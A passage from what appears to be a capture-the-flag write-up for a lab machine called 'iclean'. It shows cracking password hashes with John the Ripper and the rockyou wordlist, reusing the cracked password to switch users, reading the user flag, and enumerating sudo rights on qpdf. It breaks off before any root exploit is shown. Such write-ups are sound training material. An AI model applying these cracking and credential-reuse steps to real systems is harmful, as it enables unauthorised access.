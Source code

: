 ```plaintext
❯ john -w=/usr/share/wordlists/rockyou.txt sql-hashes.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:01 DONE (2024-07-31 21:16) 0.8849g/s 12693Kp/s 12693Kc/s 16057KC/s -sevim-..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

Also works for consuela in the machine and I have access as consuela:

```plaintext
www-data@iclean:/opt/app$ su consuela
Password: simple and clean
consuela@iclean:/opt/app$ whoami
consuela
```

And we can see user.txt!:

```bash
consuela@iclean:/opt/app$ cd ~
consuela@iclean:~$ cat user.txt 
53****************************7b
```

# Access as root

Looking at sudo privileges, I can run /usr/bin/qpdf as any user I want:

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: simple and clean
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
consuela@iclean:~$ 
```

Searching `qpdf` in google I can see it's a C++ program to manage PDF files:
